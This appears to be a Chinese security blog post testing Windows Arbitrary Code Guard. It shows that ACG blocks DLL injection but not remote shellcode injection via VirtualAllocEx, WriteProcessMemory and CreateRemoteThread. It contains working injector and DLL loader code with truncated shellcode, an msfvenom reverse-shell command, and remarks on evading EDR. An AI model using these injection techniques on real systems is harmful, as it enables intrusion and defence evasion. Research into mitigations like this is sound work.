# 任意代码保护 (ACG)-先知社区

> **来源**: https://xz.aliyun.com/news/17935  
> **文章ID**: 17935

---

#### ProcessDynamicCodePolicy

​

1.启用 ACG 后，Windows 内核通过强制执行以下策略来阻止内容进程在内存中创建和修改代码页：

​

2.代码页是不可变的。现有的进程代码页无法变为可写，因此始终具有其预期内容。内存管理器中的额外检查可强制执行此操作，以防止代码页变为可写或被进程本身修改。例如，不再可能使用 `VirtualProtect` 使图像代码页变为 `PAGE_EXECUTE_READWRITE`。

​

无法创建新的、未签名的代码页。例如，不再可能使用 VirtualAlloc 创建新的 `PAGE_EXECUTE_READWRITE` 代码页。

有助于对抗EDR的检测，EDR会hook 程序的API函数来检查，EDR通常会将其DLL注入到监控进程中来安装hook。



#### ACG策略开启

```
#include <iostream>
#include <Windows.h>

int main()
{
	PROCESS_MITIGATION_DYNAMIC_CODE_POLICY dcp = {};
	dcp.ProhibitDynamicCode = 1;
	SetProcessMitigationPolicy(ProcessDynamicCodePolicy, &dcp, sizeof(dcp));
}
```

使用processhacker 来查看，可以看到这里的Mitigation policies包含了ACG



这里命令的1开启了，另外一个就没开启



如果使用开启ProcessDynamicCodePolicy策略，直接dll注入那么会直接导致程序关闭，而且无法成功注入上线

​

##### dll注入

正常运行`TestPolicy1.exe`



注入dll后，可以看到线程退出、进程关闭，这样是没法成功的



##### 代码注入bypass ACG

dll注入无法成功，那么如果改用创建线程注入是否能成功呢？

获取PID然后注入代码是可以成功上线的，我试着手动获取进程PID，我还试过了镜像列表寻找PID，当然这都是获得进程handle的方式。后面都是一样的步骤去执行shellcode注入，但是这里都失败了，可以看到请求了CS，但是程序被关闭，无法成功上线



根据以往的代码注入经验，可能和cs有关系，因为从程序上看是请求完cs后就直接退出了

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.12.18 LPORT=684 -f c`

使用主机成功监听到了shell





使用上面说的镜像列表查找PID也是可以的



```
#include <iostream>
#include <Windows.h>

int main(int argc, char* argv[]) {
	unsigned char shellcode[] =
		"\xfc\x48";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
}

```

* 使用 API（如 `OpenProcess`）获取目标进程 `x.exe` 的句柄。
* 通过 `VirtualAllocEx` 在 `x.exe` 的地址空间中分配一块内存，注意此时Process权限为`PROCESS_ALL_ACCESS`可以通过`VirtualAllocEx`分配的内存属性是 `PAGE_EXECUTE_READWRITE`。
* 将外部生成好的 Shellcode 写入这块内存中（`WriteProcessMemory`）。

##### 父子进程小细节问题

手动关闭掉程序后，nc的shell还是不会断开

通过测试发现是因为启动程序的父进程cmd没有关闭，这里我是用cmd来启动程序的



如果我关闭后，结果就断开了



这里还和CS的连接不一样

#### 对比 未开启ACG

关闭ACG策略后测试，进程注入成功上线



这里未开启ACG，直接可以用Processhacker来注入一个dll

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        unsigned char shellcode[] = "\xfc\x48";

        PVOID buffer = VirtualAlloc(NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(GetCurrentProcess(), buffer, shellcode, sizeof shellcode, NULL);
        CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);
        MessageBoxA(NULL, "ACG 未开启! shellcode 执行成功!", "ACG 未开启! shellcode 执行成功!", 0);

    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}


```



也可以成功上线

​

​

再回到Process Monitor

这是正常运行的状态



这是成功注入后的 module里面看到了我们注入的dll以及TCP的网络回连(sxf的dll也自动注入了)





##### sangfor

这里发现了一个小插曲，当注入dll进行TCP请求的时候，sxf这个SangforTcpX64.dll也自动注入进来了，因为电脑下载了sxf相关软件，当只注入dll不进行TCP连接，sxf就不会注入dll



注入前的dll



SangforTcpx64.dll



开启ACG策略后直接运行，sxf dll被成功加载



这里居然绕过了acg成功加载了dll，有一条证据表示，可能为更高权限为内核级别注入



##### 更严格的CIG策略

CIG 是用户态保护机制的一部分，但通过内核驱动的支持，它可以强制代码完整性验证 ,开启后需验证微软签名

```
	PROCESS_MITIGATION_BINARY_SIGNATURE_POLICY sp = {};
	sp.MicrosoftSignedOnly = 1;
	SetProcessMitigationPolicy(ProcessSignaturePolicy, &sp, sizeof(sp));
```

这里编写了一个network程序会去就行网络请求，开启CIG策略后



​

可以看到sxf的dll直接没法加载，成功阻止了流氓dll的加载



注入微软签名的dll是可以的



但是我的网络请求也没有请求成功



#### 总结

尽管启用了 ACG（Arbitrary Code Guard） 的 TestPolicy1.exe 阻止了我们的恶意 injector DLL （该 DLL 试图分配 RWX（读写执行）内存、将 shellcode 写入其中并执行），ACG 并未防止远程进程直接对启用了 ACG 的进程进行以下操作：

1. 使用 `VirtualAllocEx` API 分配内存；
2. 使用`WriteProcessMemory` API 写入 Shellcode；
3. 执行 Shellcode。

这种**进程代码注入**与**dll注入**实现的方式不同。

##### 区别：

Shellcode 是事先生成的机器代码，注入时不依赖目标进程生成动态代码，也不需要加载外部模块。

分配内存方式不同，一个是`VirtualAllocEx`通过进程句柄来分配，一个是`VirtualAlloc`在进程中加载分配绑定。

​

​

##### 要点：

在同等权限下，ACG不会阻止远程通过VirtualAllocEX和WriteProcessMemory分配可执行内存。

在dll注入中，我们最后是需要LoadLibrary来加载动态模块dll，这里会被ACG拦截；而在代码注入中，我们调用远程API来执行，不需要模块加载。

​

ACG 能有效阻止注入的 DLL ，严格禁止目标进程分配和执行 RWX 内存。不完全限制外部进程操作目标进程自身。

无法防御远程进程通过 VirtualAllocEx 和 WriteProcessMemory API 的直接内存操作。这种方式绕过了 ACG 的限制。

​

​

##### 理解

代码注入程序完成了shellcode的生成和准备工作，通过注入进程调用API修改分配了目标进程的内存页，使其shellcode变为可执行与目标进程绑定，完成注入。
